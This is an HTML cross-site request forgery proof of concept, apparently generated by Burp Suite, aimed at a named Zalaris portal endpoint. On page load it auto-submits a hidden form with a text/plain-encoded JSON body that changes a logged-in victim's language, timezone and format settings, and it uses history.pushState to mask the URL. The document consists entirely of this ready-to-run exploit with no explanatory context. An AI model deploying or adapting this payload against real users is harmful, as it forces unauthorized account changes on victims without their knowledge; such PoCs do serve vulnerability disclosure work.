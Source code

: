 <html>

  <!-- CSRF PoC - generated by Burp Suite Professional -->

  <body>

  <script>history.pushState('', '', '/')</script>

    <form action="https://testportal.zalaris.com/neptune/zalaris_launchpad_standard?ajax_id=USER_DEFAULT_UPDATE&ajax_applid=ZALARIS_LAUNCHPAD_STANDARD&sap-client=510&dxp=21100006&field_id=01109&ajax_value=language" method="POST" enctype="text/plain">

      <input type="hidden" name="&#123;&quot;WA&#95;USER&#95;DEFAULT&quot;&#58;&#123;&quot;DATFM&quot;&#58;&quot;8&quot;&#44;&quot;DCPFM&quot;&#58;&quot;X&quot;&#44;&quot;LANGU&quot;&#58;&quot;Y&quot;&#44;&quot;TZONE&quot;&#58;&quot;UTC&#45;83&quot;&#44;&quot;TZONE&#95;DESCRIPT&quot;&#58;&quot;UTC&#45;8&#58;30&quot;&#44;&quot;TIMEFM&quot;&#58;&quot;4&quot;&#44;&quot;NUMBER&#95;GROUPING&quot;&#58;&quot;&quot;&#44;&quot;NUMBER&#95;DECIMAL&quot;&#58;&quot;&quot;&#44;&quot;EDIT&quot;&#58;true&#125;&#125;" value="" />

      <input type="submit" value="Submit request" />

    </form>

    <script>

      document.forms[0].submit();

    </script>

  </body>

</html>

